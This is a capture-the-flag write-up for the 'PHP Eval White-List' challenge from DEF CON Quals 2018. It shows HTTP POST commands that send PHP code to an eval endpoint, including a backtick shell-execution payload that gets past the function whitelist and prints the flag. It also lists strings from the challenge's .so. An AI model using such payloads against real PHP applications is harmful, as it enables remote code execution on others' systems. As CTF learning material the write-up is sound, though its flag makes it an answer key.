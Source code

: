 # PHP Eval White-List - Web/Pwn - 104pts

```
PHP Eval White-List
PHP was dangerous, so we've fixed it!
http://c67f8ffd.quals2018.oooverflow.io
Files:

./websec_eval_wl.so
```

## Screenshot

![fig1](./images/fig1.png)

## Solve

Seem to be an open RCE (Remote Code Execution) with some retrictions ... As some others challenges from the same CTF gave a PHP Zend framwork `.so`.

By doing a simple `phpinfo();` we can see that the restriction follows a first rule:

`No file operation outside of the current directory (this is what the open_basedir call do)`

![fig2](./images/fig2.png)

But after failing different basic tests:

`prevent you from accessing the flag binary up the current folder.`

```sh
$ http --form POST 'http://c67f8ffd.quals2018.oooverflow.io' 'submit=Run!' 'd=echo include("../flag");'
$ http --form POST 'http://c67f8ffd.quals2018.oooverflow.io' 'submit=Run!' 'd=echo file_get_contents("../flag");'
$ http --form POST 'http://c67f8ffd.quals2018.oooverflow.io' 'submit=Run!' 'd=echo include("../flag");'
```

Go it :)
```sh
$ http --form POST 'http://c67f8ffd.quals2018.oooverflow.io' 'submit=Run!' 'd=echo `../flag`;' | grep OOO | tr -d '\n\t'
```
```
OOO{Fortunately_php_has_some_rock_solid_defense_in_depth_mecanisms,_so-everything_is_fine.}
```

There is some strings in the given in the .so that let us think that some retrictions was also made on the function call (or whitelisting).
But what is the point ? we got the flag

```
The function '%s' isn't in the eval whitelist, dropping its call.
/bin/id
system
Found '%s', read to hook.
'%s' is hooked!
Init done!
function_pointer_saving
enabled
websec_eval_wl support
strcmp
/home/vagrant/src/utils.c
shell_exec
proc_open
passthru
popen
pcntl_exec
websec_eval_wl
```
